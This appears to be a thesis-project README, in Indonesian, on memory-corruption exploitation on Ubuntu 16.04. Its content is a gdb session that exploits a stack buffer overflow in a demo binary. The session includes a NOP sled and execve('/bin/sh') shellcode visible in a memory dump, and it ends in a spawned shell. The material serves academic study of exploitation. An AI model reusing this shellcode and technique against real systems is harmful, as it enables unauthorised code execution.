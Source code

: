 # Proyek Tugas Akhir
Dengan judul <b>Model Eksploitasi Memory Corruption Vulnerabilities di Modern System</b>

Klasik binary exploitation di Ubuntu 16.04

---

<h4>Stack Buffer Overflow</h4>
<code><pre>
  % gdb -q bof
Reading symbols from bof...(no debugging symbols found)...done.
(gdb) r `./exploit 0xffffffff`
Starting program: /home/febri/projek/tugas-akhir/kode-program/compiled-binary/demo/bof `./exploit 0xffffffff`
eip di fungsi main() pada stack frame ada pada alamat 0xbfffec20
kamu mengatakan : �����������������������������������1ۉذ̀1ۉذ.̀1�Rhn/shh//bi��Rfh-i��RQS��j
                                                                                         X̀jX1�̀����������������������������

Program received signal SIGSEGV, Segmentation fault.
0xffffffff in ?? ()
(gdb) i r $esp
esp            0xbfffec80	0xbfffec80
(gdb) x/1000bx 0xbfffec00
0xbfffec00:	0x70	0xa5	0xe7	0xb7	0x1e	0xec	0xff	0xbf
0xbfffec08:	0x00	0xe0	0xfa	0xb7	0x75	0x56	0xe4	0xb7
0xbfffec10:	0x7e	0x84	0x04	0x08	0x4a	0x85	0x04	0x08
0xbfffec18:	0x1e	0xec	0xff	0xbf	0x17	0x2f	0x90	0x90
0xbfffec20:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffec28:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffec30:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffec38:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffec40:	0x90	0x31	0xdb	0x89	0xd8	0xb0	0x17	0xcd
0xbfffec48:	0x80	0x31	0xdb	0x89	0xd8	0xb0	0x2e	0xcd
0xbfffec50:	0x80	0x31	0xd2	0x52	0x68	0x6e	0x2f	0x73
0xbfffec58:	0x68	0x68	0x2f	0x2f	0x62	0x69	0x89	0xe3
0xbfffec60:	0x52	0x66	0x68	0x2d	0x69	0x89	0xe1	0x52
0xbfffec68:	0x51	0x53	0x89	0xe1	0x6a	0x0b	0x58	0xcd
0xbfffec70:	0x80	0x6a	0x01	0x58	0x31	0xdb	0xcd	0x80
0xbfffec78:	0xff	0xff	0xff	0xff	0xff	0xff	0xff	0xff
0xbfffec80:	0xff	0xff	0xff	0xff	0xff	0xff	0xff	0xff
0xbfffec88:	0xff	0xff	0xff	0xff	0xff	0xff	0xff	0xff
0xbfffec90:	0xff	0xff	0xff	0xff	0x00	0x00	0x00	0x00
0xbfffec98:	0x00	0xe0	0xfa	0xb7	0x04	0xfc	0xff	0xb7
0xbfffeca0:	0x00	0xf0	0xff	0xb7	0x00	0x00	0x00	0x00
0xbfffeca8:	0x00	0xe0	0xfa	0xb7	0x00	0xe0	0xfa	0xb7
0xbfffecb0:	0x00	0x00	0x00	0x00	0xb7	0xfa	0x0e	0xe5
0xbfffecb8:	0xa7	0x14	0x5c	0xd8	0x00	0x00	0x00	0x00
0xbfffecc0:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xbfffecc8:	0x02	0x00	0x00	0x00	0x40	0x83	0x04	0x08
0xbfffecd0:	0x00	0x00	0x00	0x00	0x10	0x00	0xff	0xb7
0xbfffecd8:	0x80	0xa8	0xfe	0xb7	0x00	0xf0	0xff	0xb7
0xbfffece0:	0x02	0x00	0x00	0x00	0x40	0x83	0x04	0x08
0xbfffece8:	0x00	0x00	0x00	0x00	0x61	0x83	0x04	0x08
0xbfffecf0:	0x3b	0x84	0x04	0x08	0x02	0x00	0x00	0x00
0xbfffecf8:	0x14	0xed	0xff	0xbf	0x90	0x84	0x04	0x08
0xbfffed00:	0xf0	0x84	0x04	0x08	0x80	0xa8	0xfe	0xb7
0xbfffed08:	0x0c	0xed	0xff	0xbf	0x18	0xf9	0xff	0xb7
0xbfffed10:	0x02	0x00	0x00	0x00	0x30	0xef	0xff	0xbf
0xbfffed18:	0x75	0xef	0xff	0xbf	0x00	0x00	0x00	0x00
0xbfffed20:	0xec	0xef	0xff	0xbf	0xfb	0xef	0xff	0xbf
0xbfffed28:	0x0d	0xf0	0xff	0xbf	0x2b	0xf0	0xff	0xbf
0xbfffed30:	0x4e	0xf0	0xff	0xbf	0x59	0xf0	0xff	0xbf
0xbfffed38:	0x7b	0xf0	0xff	0xbf	0x8d	0xf0	0xff	0xbf
0xbfffed40:	0xa4	0xf0	0xff	0xbf	0xd0	0xf0	0xff	0xbf
0xbfffed48:	0x03	0xf1	0xff	0xbf	0x24	0xf1	0xff	0xbf
0xbfffed50:	0x32	0xf1	0xff	0xbf	0x41	0xf1	0xff	0xbf
0xbfffed58:	0x55	0xf1	0xff	0xbf	0x68	0xf1	0xff	0xbf
---Type <return> to continue, or q <return> to quit---
0xbfffed60:	0x29	0xf2	0xff	0xbf	0x40	0xf2	0xff	0xbf
0xbfffed68:	0x55	0xf2	0xff	0xbf	0x67	0xf2	0xff	0xbf
0xbfffed70:	0x79	0xf2	0xff	0xbf	0x8f	0xf2	0xff	0xbf
0xbfffed78:	0xa3	0xf2	0xff	0xbf	0xdd	0xf2	0xff	0xbf
0xbfffed80:	0x06	0xf3	0xff	0xbf	0x29	0xf3	0xff	0xbf
0xbfffed88:	0x44	0xf3	0xff	0xbf	0x56	0xf3	0xff	0xbf
0xbfffed90:	0x76	0xf3	0xff	0xbf	0x91	0xf3	0xff	0xbf
0xbfffed98:	0xa3	0xf3	0xff	0xbf	0xba	0xf3	0xff	0xbf
0xbfffeda0:	0xfe	0xf3	0xff	0xbf	0x34	0xf4	0xff	0xbf
0xbfffeda8:	0x78	0xf4	0xff	0xbf	0x9b	0xf4	0xff	0xbf
0xbfffedb0:	0xb2	0xf4	0xff	0xbf	0xd1	0xf4	0xff	0xbf
0xbfffedb8:	0xe4	0xf4	0xff	0xbf	0xef	0xf4	0xff	0xbf
0xbfffedc0:	0x1c	0xf5	0xff	0xbf	0x61	0xf5	0xff	0xbf
0xbfffedc8:	0x72	0xf5	0xff	0xbf	0x8a	0xf5	0xff	0xbf
0xbfffedd0:	0x9c	0xf5	0xff	0xbf	0xad	0xf5	0xff	0xbf
0xbfffedd8:	0xc0	0xf5	0xff	0xbf	0xf4	0xf5	0xff	0xbf
0xbfffede0:	0x6f	0xf6	0xff	0xbf	0x7e	0xf6	0xff	0xbf
0xbfffede8:	0x9b	0xf6	0xff	0xbf	0xcc	0xf6	0xff	0xbf
0xbfffedf0:	0xdd	0xf6	0xff	0xbf	0xfc	0xf6	0xff	0xbf
0xbfffedf8:	0x10	0xf7	0xff	0xbf	0x42	0xf7	0xff	0xbf
0xbfffee00:	0x4a	0xf7	0xff	0xbf	0x5c	0xf7	0xff	0xbf
0xbfffee08:	0x67	0xf7	0xff	0xbf	0x76	0xf7	0xff	0xbf
0xbfffee10:	0x90	0xf7	0xff	0xbf	0xa4	0xf7	0xff	0xbf
0xbfffee18:	0xbe	0xf7	0xff	0xbf	0xd3	0xf7	0xff	0xbf
0xbfffee20:	0x0f	0xf8	0xff	0xbf	0x22	0xf8	0xff	0xbf
0xbfffee28:	0x3b	0xf8	0xff	0xbf	0x83	0xf8	0xff	0xbf
0xbfffee30:	0x9e	0xf8	0xff	0xbf	0xa9	0xf8	0xff	0xbf
0xbfffee38:	0xb1	0xf8	0xff	0xbf	0xc6	0xf8	0xff	0xbf
0xbfffee40:	0xe6	0xf8	0xff	0xbf	0x6e	0xfe	0xff	0xbf
0xbfffee48:	0x8d	0xfe	0xff	0xbf	0xa6	0xfe	0xff	0xbf
0xbfffee50:	0xd4	0xfe	0xff	0xbf	0xec	0xfe	0xff	0xbf
0xbfffee58:	0x21	0xff	0xff	0xbf	0x5b	0xff	0xff	0xbf
0xbfffee60:	0xa2	0xff	0xff	0xbf	0xab	0xff	0xff	0xbf
0xbfffee68:	0x00	0x00	0x00	0x00	0x20	0x00	0x00	0x00
0xbfffee70:	0xc8	0xab	0xfd	0xb7	0x21	0x00	0x00	0x00
0xbfffee78:	0x00	0xa0	0xfd	0xb7	0x10	0x00	0x00	0x00
0xbfffee80:	0xff	0xfb	0x8b	0x17	0x06	0x00	0x00	0x00
0xbfffee88:	0x00	0x10	0x00	0x00	0x11	0x00	0x00	0x00
0xbfffee90:	0x64	0x00	0x00	0x00	0x03	0x00	0x00	0x00
0xbfffee98:	0x34	0x80	0x04	0x08	0x04	0x00	0x00	0x00
0xbfffeea0:	0x20	0x00	0x00	0x00	0x05	0x00	0x00	0x00
0xbfffeea8:	0x09	0x00	0x00	0x00	0x07	0x00	0x00	0x00
0xbfffeeb0:	0x00	0xb0	0xfd	0xb7	0x08	0x00	0x00	0x00
0xbfffeeb8:	0x00	0x00	0x00	0x00	0x09	0x00	0x00	0x00
---Type <return> to continue, or q <return> to quit---
0xbfffeec0:	0x40	0x83	0x04	0x08	0x0b	0x00	0x00	0x00
0xbfffeec8:	0xe8	0x03	0x00	0x00	0x0c	0x00	0x00	0x00
0xbfffeed0:	0xe8	0x03	0x00	0x00	0x0d	0x00	0x00	0x00
0xbfffeed8:	0xe8	0x03	0x00	0x00	0x0e	0x00	0x00	0x00
0xbfffeee0:	0xe8	0x03	0x00	0x00	0x17	0x00	0x00	0x00
0xbfffeee8:	0x00	0x00	0x00	0x00	0x19	0x00	0x00	0x00
0xbfffeef0:	0x1b	0xef	0xff	0xbf	0x1f	0x00	0x00	0x00
0xbfffeef8:	0xb7	0xff	0xff	0xbf	0x0f	0x00	0x00	0x00
0xbfffef00:	0x2b	0xef	0xff	0xbf	0x00	0x00	0x00	0x00
0xbfffef08:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xbfffef10:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xbfffef18:	0x00	0x00	0x00	0x7a	0x5e	0x04	0xd8	0xfd
0xbfffef20:	0x6b	0x0d	0xe4	0xb6	0x78	0x9b	0x87	0x87
0xbfffef28:	0x54	0x05	0x5c	0x69	0x36	0x38	0x36	0x00
0xbfffef30:	0x2f	0x68	0x6f	0x6d	0x65	0x2f	0x66	0x65
0xbfffef38:	0x62	0x72	0x69	0x2f	0x70	0x72	0x6f	0x6a
0xbfffef40:	0x65	0x6b	0x2f	0x74	0x75	0x67	0x61	0x73
0xbfffef48:	0x2d	0x61	0x6b	0x68	0x69	0x72	0x2f	0x6b
0xbfffef50:	0x6f	0x64	0x65	0x2d	0x70	0x72	0x6f	0x67
0xbfffef58:	0x72	0x61	0x6d	0x2f	0x63	0x6f	0x6d	0x70
0xbfffef60:	0x69	0x6c	0x65	0x64	0x2d	0x62	0x69	0x6e
0xbfffef68:	0x61	0x72	0x79	0x2f	0x64	0x65	0x6d	0x6f
0xbfffef70:	0x2f	0x62	0x6f	0x66	0x00	0x90	0x90	0x90
0xbfffef78:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffef80:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffef88:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffef90:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffef98:	0x31	0xdb	0x89	0xd8	0xb0	0x17	0xcd	0x80
0xbfffefa0:	0x31	0xdb	0x89	0xd8	0xb0	0x2e	0xcd	0x80
0xbfffefa8:	0x31	0xd2	0x52	0x68	0x6e	0x2f	0x73	0x68
0xbfffefb0:	0x68	0x2f	0x2f	0x62	0x69	0x89	0xe3	0x52
0xbfffefb8:	0x66	0x68	0x2d	0x69	0x89	0xe1	0x52	0x51
0xbfffefc0:	0x53	0x89	0xe1	0x6a	0x0b	0x58	0xcd	0x80
0xbfffefc8:	0x6a	0x01	0x58	0x31	0xdb	0xcd	0x80	0xff
0xbfffefd0:	0xff	0xff	0xff	0xff	0xff	0xff	0xff	0xff
0xbfffefd8:	0xff	0xff	0xff	0xff	0xff	0xff	0xff	0xff
0xbfffefe0:	0xff	0xff	0xff	0xff	0xff	0xff	0xff	0xff
(gdb) r `./exploit 0xbfffef80`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/febri/projek/tugas-akhir/kode-program/compiled-binary/demo/bof `./exploit 0xbfffef80`
eip di fungsi main() pada stack frame ada pada alamat 0xbfffec20
kamu mengatakan : �����������������������������������1ۉذ̀1ۉذ.̀1�Rhn/shh//bi��Rfh-i��RQS��j
                                                                                         X̀jX1�̀����������������������������
process 12451 is executing new program: /bin/dash
$ 
  </code></pre>
